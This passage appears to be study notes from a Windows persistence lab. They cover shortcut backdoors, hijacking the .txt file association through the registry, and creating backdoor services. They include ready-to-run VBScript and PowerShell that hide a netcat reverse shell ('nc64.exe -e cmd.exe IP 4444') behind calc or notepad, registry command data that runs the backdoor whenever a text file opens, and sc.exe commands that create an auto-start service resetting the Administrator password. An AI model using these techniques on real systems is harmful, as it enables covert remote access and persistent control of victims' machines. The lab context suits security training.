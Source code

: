 
---

Note that this will briefly flash the console, as powershell has to first load the CLI to then hide the window through the `-windowstyle hidden`. To circumvent this, we can use `wscript` instead, as this can run code without displaying the window by setting the window visibility to 0
```vbscript
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("""C:\tools\nc64.exe""" & "-e cmd.exe IP 4444"),0,False 
shell.Run("C:\Windows\System32\calc.exe"),1,True 
```
And changing the shortcut target to
```target
wscript.exe /e:VBScript C:\Windows\System32\back.vbs
```
We can also save the backdoor as any other extension (ex `.txt`) and still open it by using `wscript` 

## Hijacking File Associations
The default OS file associations are kept inside the registry, where a key is stored for every single file type under `HKLM\Software\Classes\`. If for example we want to check which program is used to open `.txt` files, we can just go and check in the Regedit for the `.txt` subkey and find which Programmatic ID (ProgID) is associated with it. A ProgID is simply an identifier to a program installed on the system. For `.txt` files the ProgID is `txtfile`.
We can then search for a subkey for the corresponding ProgID (also under `HKLM\Software\Classes\`), in this case, `txtfile`, where we will find a reference to the program in charge of handling `.txt` files. Most ProgID entries will have a subkey under `shell\open\command` where the default command to be run for files with that extension is specified.
Normally, when we try to open a `.txt` file, the system will execute `%SystemRoot%\system32\NOTEPAD.EXE %1` where `%1` represents the name of the opened file. If we want to hijack this extension, we could replace the command with a script that executes a backdoor and then opens the file as usual.  
```powershell
Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe IP 4444"
C:\Windows\system32\NOTEPAD.EXE $args[0]
```
or 
```vbscript
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("""C:\tools\nc64.exe""" & "-e cmd.exe IP 4444"),0,False 
shell.Run("""C:\Windows\System32\notepad.exe""" & WScript.Arguments(0)),1,True 
```
And finally changing the registry key data to run our backdoor script. For powershell
```Data
powershell -windowstyle hidden C://windows//system32//backdoor.ps1 %1
```
For vbs
```Data
C:\Windows\System32\wscript.exe /e:VBScript C:\Windows\System32\backdoor.txt %1
```

# Services
Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the target machine is started. If we can leverage any services to run something for us, we can regain control of the victim machine each time is started.
A service being an executable that runs in the background. When configuring a service, we define which executable will be used and select if the service will automatically run when the machine starts or should be manually started.
## Creating Backdoor Services
We can create and start a service using the following commands (There must be a space after each equal sign)
```Powershell
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
```